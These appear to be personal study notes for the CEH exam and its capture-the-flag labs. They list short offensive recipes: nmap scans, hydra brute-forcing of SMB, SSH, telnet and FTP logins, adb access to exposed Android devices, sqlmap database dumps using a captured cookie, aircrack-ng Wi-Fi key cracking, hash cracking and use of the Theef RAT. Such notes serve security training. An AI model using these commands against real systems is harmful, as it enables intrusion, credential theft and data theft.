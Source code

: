 # Notes
Ever in need make use of it

# CEH Notes

When login sudo arp-scan -local or netdiscover -i 10.10.1.0 or nmap -sn ip/24

1. To find FQDN - Do Nmap and Check results or Check for This PC Properties

Ex- nmap -sC -sV -T4 -A -vv 192.168.205.4

OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2024-07-06T11:15:10-04:00

2. To check for live hosts - Scan using Nmap
Ex- nmap -T4 -A 192.168.x.x/2x

OR 

nmap -T4 -A -p 80,443 192.168.x.x/2x

3. To enumerate SMB - Check for 139, 445 open ports in IPs and Brute force them using Hydra and connect using SMB Client and share/retrieve files.
Ex- nmap -T4 -A -p 139,445 192.168.x.x/2x
OR
nmap -p 139,445 -sV 192.168.x.x/2x

Brute force SMB with hydra
hydra -l USER_NAME -P password_file TARGET_IP smb 
OR
hydra -L Username wordlist Path -P Password wordlist Path IP smb

smbclient //target_ip/ -U USER_NAME 
get file.txt
OR 
smbmap -u USER_NAME -p 'PASSWORD' -H TARGET_IP --download 'C$\file.txt'

If the file is encrypted then Decrypt using BCTextEncoder or SNOW

i.e. snow.exe -C -p “password” file.txt

4. For Mobile IP/Android IP - Check for 5555 Open port in IPs and connect using adb.
Ex- nmap -sV -p 5555 192.168.x.x/2x
adb connect TARGET_IP:5555
adb shell
check for Scan folder - ls; cd sdcard/Scan
adb pull /sdcard/Scan attacker/home -If not able to pull use sudo -i
cd Scan; ls
To install Entropy - apt install ent
ent evil.elf
ent evil2.elf
ent evil3.elf
sha384sum evil.elf
Use Hashcalc

5. To check for Severity score - Use Nmap or Open VAS
Ex- nmap -Pn --script vuln 192.168.xx.xx
OR 
In Open VAS check for EOL of Web dev lang platform vuln CVE IDs

Google them for their CVSS Scores


6. To find secret.txt file/flag in any network - Do nmap -T4 -A 192.168.x.x/2x

OR 

nmap -T4 -A -p 80,443 192.168.x.x/2x

Look out for telnet or ssh and bruteforce it - Since it's a remote login
hydra -L username_file -P password_file TARGET_IP telnet
or
hydra -L username_file -P password_file TARGET_IP ssh

Login to the identified service and search for the file

7. To Check/Decrypt for any sensitive data in a image - Use Openstego
Password will be provided

8. To find flag in FTP - Enumerate for Open ports having port number 21
If port 21 is open then try anonymous login else Brute force it using Hydra
hydra -l uname -P Password wordlist path ftp://IP
ftp IP
ftp>ls
ftp>find . -name secret.txt
or locate secret.txt

9. To perform vertical privilege escalation - Use sudo -i
nmap -sV -A -p 22 IP/24
ssh unmae@IP
pwd
sudo -i
whoami - root ?
cd /
find . -name root.txt or locate root.txt


10. To check for Entropy point of an ELF/exe file - Use DIE Tool or PEid Tool or PeVIEW Tool

Run DIE exe file
Upload Malicious file
Check for Entropy address in advanced

11. To Check for DOS/DDOS - Use Wireshark to obtain IP
Ex- Open Pcap file and search using display filter
i.e. tcp.flags.syn == 1 and tcp.flags.ack == 0

Else Check Statistics > IPv4 Address > Src & Dest > Apply filter

12. To find Login Creds using SQL MAP -

Ex- Login and capture cookie using document.cookie
Try sqlmap -u "URL" --cookie="value;" --dbs = Dumps Databases
sqlmap -u "URL" --cookie="value;" -D dbase --tables = Dumps Tables
sqlmap -u "URL" -cookie="value;" -D dbase -T tablename --dump = Dumps Tabular data of other login creds


13. Can do SQL Injection using copying Burp Request into a text file


14. To find flags in any URL - Can use dirsearch, gobuster for php, html, txt files
For Ex-
dirsearch -e php,html,js,txt -u https://example.com -> for extension search
OR
dirsearch -e php,html,js,txt -u https://example.com -w /usr/share/wordlists/dirb/common.txt -> for wordlist search


15. Use JSQL Tool to dump data and find Flags in it.

16. Login to DVWA using Creds and check for the flag.txt file and Decrypt it using Crackstation or Hashes.com

17. For IOT Publish message capture - Open Pcap and search for MQTT in display filter
Now Check for the Message value or Message Length

18. TO Crack WiFi Creds - Open Cap file
aircrack-ng WEPcrack-01.cap(Path)
KEY FOUND! [________]
aircrack-ng WPA2crack-01.cap(Path) -w password.txt
KEY FOUND! [________]

Else
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b [Mac address] pass*.cap
-b = BSSID

19. Use Theef RAT to retieve Secret.txt code from Victim machine.

20. Decrypt Password hash using hashes.com or Crackstation or JohnTheRipper
Obtain the plain password and Decrypt the Veracrypt volume
Then access the flag.txt from Veracrypt volume and submit
 




